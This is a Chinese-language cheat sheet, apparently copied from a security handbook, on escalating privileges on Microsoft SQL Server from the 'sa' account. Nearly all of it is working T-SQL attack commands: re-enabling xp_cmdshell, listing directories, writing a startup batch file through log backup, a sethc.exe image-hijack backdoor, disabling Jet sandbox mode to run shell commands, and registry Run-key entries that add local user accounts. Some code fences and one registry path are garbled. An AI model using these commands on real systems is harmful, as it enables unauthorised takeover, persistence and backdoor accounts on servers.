 # SA 提权：

> 原文：[http://book.iwonder.run/安全技术/sql/sql 提权手工辅助/3.html](http://book.iwonder.run/安全技术/sql/sql 提权手工辅助/3.html)

## 1.判断扩展存储是否存在：

```
 select count(*) from master.dbo.sysobjects where xtype = 'x' AND name= 'xp_cmdshell'
  select count(*) from master.dbo.sysobjects where name='xp_regread' 
```

恢复：

```
 exec sp_dropextendedproc 'xp_cmdshell'
  exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'
  EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;(SQL2005) 
```

## 2.列目录：

```
 exec master..xp_cmdshell 'ver'
  (or) exec master..xp_dirtree 'c:\',1,1
  (or) drop table black
       create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))-- 
       insert into black exec master..xp_cmdshell 'dir c:\' 
       select top 1 mulu from black where id=1

xp_cmdshell 被删除时，可以用(4.a)开启沙盒模式，然后(4.b)方法提权 
```

### 3.备份启动项：

```
 alter database [master] set RECOVERY FULL
  create table cmd (a image)
  backup log [master] to disk = 'c:\cmd1' with init
  insert into cmd (a) values (0x(batcode))
  backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\start.bat'
  drop table cmd 
```

### 4.映像劫持

```
 xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\cmd.exe' 
```

### 5.沙盒模式提权：

方法 a

```exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet.0\Engines','SandBoxMode','REG_DWORD',0; #关闭沙盒模式

```
 方法 b： 
```

Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user mstlab mstlab /add")'); #or c:\windows\system32\ias\dnary.mdb string 类型用此。 开启 OpenRowSet：exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;

```
 ### 6.xp_regwrite 操作注册表 
```

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion un','black','REG_SZ','net user test test /add' 开启 xp_oacreate:exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE; ```

